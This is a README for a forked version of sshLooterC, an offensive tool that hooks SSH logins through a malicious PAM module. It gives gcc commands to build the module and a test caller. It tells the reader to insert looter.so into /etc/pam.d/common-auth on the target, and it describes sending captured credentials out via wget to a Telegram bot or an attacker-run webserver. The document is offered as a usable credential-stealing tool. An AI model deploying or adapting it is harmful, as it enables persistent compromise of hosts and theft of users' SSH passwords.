 # sshLooterC forked
<pre>
<a href="https://github.com/mthbernardes/sshLooterC">
https://github.com/mthbernardes/sshLooterC</a>
</pre>
# Changes from the original project
* Removed libcurl4-openssl-dev dependency, now using <b>system("wget ...")</b>
* Compiled for 32bit arch on a 64bit system, you need to install <b>gcc-multilib</b> on the attacker machine.
I have coded a C file, <b>callLooter.c</b> to test the library before installation on the target
</pre>

# Compilation
<pre>
 gcc callLooter.c -o callLooter -m32 -ldl
 gcc -m32 -Werror -Wall -fPIC -shared -o looter.so looter.c
The m32 switch is optional and allows to compile the files for a 32bit arch
</pre>


# Install and configuration
<pre>
See the original project
</pre>

# Note on Telegram configuration
<pre>
Install a client (mobile or desktop), request a new bot @botfather, 
then ask @userinfobot to get your user id to be used in conjunction with the bot API key.
Alternatively you can expose your logic on a webserver to read the query string with 
the leaked data and change the wget URL in looter.c
</pre>

# Usage
<pre>
See the original project, please note that you have to modify the <b>/etc/pam.d/common-auth</b> file 
inserting <b>looter.so</b>, according to the compilation instructions
</pre>

# Credits
<a href="https://mthbernardes.github.io/persistence/2018/02/10/stealing-ssh-credentials-another-approach.html" target="_blank">Stealing SSH credentials Another Approach.</a>
<br/>
Thank you

 
